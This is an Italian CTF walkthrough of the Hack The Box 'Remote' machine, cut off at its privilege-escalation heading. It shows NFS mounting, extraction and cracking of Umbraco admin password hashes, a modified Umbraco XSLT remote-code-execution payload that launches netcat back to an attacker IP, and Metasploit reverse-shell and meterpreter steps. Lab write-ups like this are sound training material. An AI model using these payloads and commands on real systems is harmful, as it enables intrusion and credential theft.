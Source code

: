 ## Information Gathering

Come qualsiasi CTF comincio con una prima analisi superficiale:

```
nmap -sV -A -T4 10.10.10.180
```
Scopro come servizi attivi, un webserver in ascolto sulla porta 80 ed un mount demon sulla porta 2049, puntante su */site_backups*.

A questo punto navigo un po nel sito web, trovo un form autenticativo per la parte di backoffice. Provo con delle credenziali basilari ma non succede nulla. Vedo se magari sono hardcoded nel BE, quindi monto il disco che è in ascolto in locale:

```
mount -t nfs 10.10.10.180:/site_backups /tmp/remote_htb/
```

Cerco la documentazione di Umbraco e trovo che i collegamenti a DB sono impostati all'interno del file Web.config, e la stringa identificativa è "umbracoDbDMS". Quindi eseguo un grep sul file di config:

```
cat Web.config | grep umbracoDbDMS
```

Trovo la stringa di riferimento e scopro che un file di backup del DB è salvato dentro il file *Umbraco.sdf*. Lo rintraccio all'interno della cartella *App_Data*, faccio un cat, strings ed head. Tramite il comando *head* trovo un po di stringhe interessanti ma confuse. Quindi devio il flusso su un file dump_pwd.txt, quindi scremo e trovo:

```                                                                                                    
admin@htb.local
b8be16afba8c314ad33d812f22a04991b90e2aaa
{"hashAlgorithm":"SHA1"}
smith@htb.local
8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA=
{"hashAlgorithm":"HMACSHA256"}
```

Rompo l'hash di admin (essendo uno sha1 risulta rompibile) con CrackStation (o John):
```
baconandcheese
```
Faccio quindi il login nell'apposito tab:
```
10.10.10.180/umbraco/#/login
```

## Web Exploitation

Studio il CMS sottostante e trovo la versione in running. Per questa versione rintraccio un exploit, il 46153.py. 
Dopo averlo studiato ne modifico il PoC in modo tale da poter eseguire NetCat che ho caricato in precedenza all'interno dell'Admin dashboard (il cui path globale, studiando la documentazione, scopro essere:v C:/inetpub/wwwroot/Media/):

```
'<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.147 4444 –e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "C:/inetpub/wwwroot/Media/1035/nc64.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```

Avvio nc in ascolto anche sulla mia macchina ed eccomi collegato tramite una reverse shell! 

*Versione 2*

Sfruttando la vulnerabilità sopracitata, si modifica l'xxe mettendo come comando Powershell.exe ed argomento l'output rilasciato da WebDelivery di Metasploit. Quindi, la procedura sarà la seguente:

```
msf5 > use exploit/multi/script/web_delivery
msf5 > set target 2
msf5 > set payload windows/x64/shell/reverse_tcp   <- con meterpreter non funzia!
msf5 > set srvport,host ...
msf5 > run

*Copio lo shellcode dentro al frammento di xxe, lo inoltro al server, quindi mi si aprirà una sessione che metterò in background*

msf5 > use post/multi/manage/shell_to_meterpreter
msf5 > set session X 
msf5 > run

*Attendo la migrazione*

msf5 > sessions -i Y
```

Avrò una sessione con meterpreter! Adesso prelevo lo user flag! 

## Privilege Escalation
